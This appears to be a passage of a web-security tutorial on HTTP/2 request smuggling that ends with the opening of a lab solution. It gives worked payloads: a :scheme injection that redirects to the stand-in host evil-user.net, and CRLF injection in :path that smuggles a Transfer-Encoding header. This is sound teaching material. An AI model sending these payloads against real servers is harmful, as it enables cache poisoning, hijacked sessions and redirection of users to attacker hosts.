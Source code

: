 ```
```
Request
:method	GET
:path	/anything
:authority	vulnerable-website.com
:scheme	https://evil-user.net/poison?
```

```
Response
:status	301
location	https://evil-user.net/poison?://vulnerable-website.com/anything/
```

**Injecting newlines into pseudo-headers**

When injecting into the :path or :method pseudo-headers, you need to make sure that the resulting HTTP/1 request still has a valid request line.

As the \r\n terminates the request line in HTTP/1, simply adding \r\n part way through will just break the request. After downgrading, the rewritten request must contain the following sequence prior to the first \r\n that you inject:

```
<method> + space + <path> + space + HTTP/1.1
```

Just visualize where your injection falls within this sequence and include all of the remaining parts accordingly. For example, when injecting into the :path, you need to add a space and HTTP/1.1 before the \r\n as follows:

```
Front-end (HTTP/2)
:method	GET
:path	
/example HTTP/1.1\r\n
Transfer-Encoding: chunked\r\n
X: x
:authority	vulnerable-website.com
```

```
Back-end (HTTP/1)
GET /example HTTP/1.1\r\n
Transfer-Encoding: chunked\r\n
X: x HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```

## Accounting for front-end rewriting

### HTTP/2 request splitting via CRLF injection

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, delete the user carlos by using response queue poisoning to break into the admin panel at /admin. An admin user will log in approximately every 10 seconds.

**Solution**

1. Send a request for *GET /* to Burp Repeater. Expand the Inspector's **Request Attributes** section and change the protocol to HTTP/2.
```